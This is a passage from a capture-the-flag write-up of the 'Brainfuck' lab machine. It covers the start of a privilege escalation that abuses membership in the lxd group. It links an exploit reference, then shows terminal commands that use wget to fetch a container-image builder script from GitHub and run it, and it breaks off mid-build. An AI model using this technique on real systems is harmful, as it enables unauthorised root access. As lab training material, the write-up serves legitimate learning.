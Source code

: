 ![https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-brainfuck/Untitled%2015.png](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-brainfuck/Untitled%2015.png)

## Privilege Escalation

Once I logged in, I checked `id` and It looks like I'm in the group of `lxd`.

```bash
orestis@brainfuck:~$ id
uid=1000(orestis) gid=1000(orestis) groups=1000(orestis),4(adm),24(cdrom),30(dip),46(plugdev),110(lxd),121(lpadmin),122(sambashare)
```

Aftere some googling I got these.

> [https://www.exploit-db.com/exploits/46978](https://www.exploit-db.com/exploits/46978)

> [https://www.hackingarticles.in/lxd-privilege-escalation/](https://www.hackingarticles.in/lxd-privilege-escalation/)

Downloaded that to my machine and build that, it gives me a zip file.

```bash
root@kali:~/CTF/HTB/Boxes/Brainfuck# wget https://raw.githubusercontent.com/saghul/lxd-alpine-builder/master/build-alpine
--2020-07-06 18:52:15--  https://raw.githubusercontent.com/saghul/lxd-alpine-builder/master/build-alpine
Resolving raw.githubusercontent.com (raw.githubusercontent.com)... 151.101.156.133
Connecting to raw.githubusercontent.com (raw.githubusercontent.com)|151.101.156.133|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 7498 (7.3K) [text/plain]
Saving to: ‘build-alpine’

build-alpine                    100%[=====================================================>]   7.32K  --.-KB/s    in 0.001s  

2020-07-06 18:52:21 (5.10 MB/s) - ‘build-alpine’ saved [7498/7498]

root@kali:~/CTF/HTB/Boxes/Brainfuck# bash build-alpine
Determining the latest release... v3.12
Using static apk from http://dl-cdn.alpinelinux.org/alpine//v3.12/main/x86_64
Downloading alpine-mirrors-3.5.10-r0.apk
tar: Ignoring unknown extended header keyword 'APK-TOOLS.checksum.SHA1'
tar: Ignoring unknown extended header keyword 'APK-TOOLS.checksum.SHA1'
Downloading alpine-keys-2.2-r0.apk
.
.
.
```